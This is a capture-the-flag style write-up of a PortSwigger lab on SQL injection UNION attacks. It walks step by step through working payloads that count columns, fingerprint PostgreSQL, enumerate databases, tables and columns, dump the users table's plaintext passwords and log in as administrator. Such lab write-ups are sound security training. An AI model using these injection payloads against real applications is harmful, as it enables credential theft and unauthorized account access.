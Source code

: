 # SQL injection UNION attack, retrieving data from other tables | Dec 4, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables), you'll learn: SQL injection UNION attack, retrieving data from other tables! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. To construct such an attack, you need to combine some of the techniques you learned in previous labs.

The database contains a different table called `users`, with columns called `username` and `password`.

To solve the lab, perform an [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-5/images/Pasted%20image%2020221204022006.png)

In the previous labs, we found that **the product category `filter` is vulnerable to SQL injection**, and **the query is being reflected to the application's response**.

**Now, let's enumerate the number of columns in this table via `UNION` clause!**
```sql
' UNION SELECT NULL,NULL,NULL-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-5/images/Pasted%20image%2020221204022316.png)

**When we try to select 3 columns, it returns a `500 Internal Server Error` HTTP status, which means this database table has no 3 columns.**

**How about 2 columns?**
```sql
' UNION SELECT NULL,NULL-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-5/images/Pasted%20image%2020221204022429.png)

No error this time!

**Next, we need to enumerate which column accepts string datatype:**
```sql
' UNION SELECT 'SQL Injection 1','SQL Injection 2'-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-5/images/Pasted%20image%2020221204022528.png)

**We can see that all columns accept string datatype!**

- First column: Header
- Second column: article content

**Then, we need to find out which DBMS(Database Management System) is using:**
```sql
' UNION SELECT NULL,version()-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-5/images/Pasted%20image%2020221204022746.png)

- DBMS information: **PostgreSQL version 12.12**

> Note: Although the lab background gave us the table name and column names, I wanna practice SQL injection without anything information in advance.

**After that, we try to enumerate the current table data!**

**According to [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-list-database) about PostgreSQL injection, we can list all the database names:** 
```sql
' UNION SELECT NULL,datname FROM pg_database-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-5/images/Pasted%20image%2020221204023527.png)

- Databases: `template1`, `academy_labs`, `postgres`, `template0`

**Looks like `academy_labs` is our current database? Let's check it is true:**
```sql
' UNION SELECT NULL,current_database()-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-5/images/Pasted%20image%2020221204023709.png)

**Yep, let's list all the table names in this database!**
```sql
' UNION SELECT NULL,table_name FROM information_schema.tables-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-5/images/Pasted%20image%2020221204024437.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-5/images/Pasted%20image%2020221204024452.png)

**The `users` table looks interesting! Let's enumerate it's column names:**
```sql
' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_name='users'-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-5/images/Pasted%20image%2020221204024620.png)

- Table `users` column names: `password`, `username`

**Sounds very interesting! Let's list all the data in this table!**
```sql
' UNION SELECT username,password FROM users-- -
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-5/images/Pasted%20image%2020221204024743.png)

Nice! **We found all the users' name and password in plaintext**!!

**Now, our objective is log in as `administrator` user.**

Armed with above information, **we know that it's username and password is `administrator:n84eoukut9lau0n2n4s2`!**

**Let's login as `administrator` then!** 

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-5/images/Pasted%20image%2020221204024943.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-5/images/Pasted%20image%2020221204025015.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/SQL-Injection/SQLi-5/images/Pasted%20image%2020221204025025.png)

We're successfully logged in as `administrator`!!

# Conclusion

What we've learned:

1. SQL injection UNION attack, retrieving data from other tables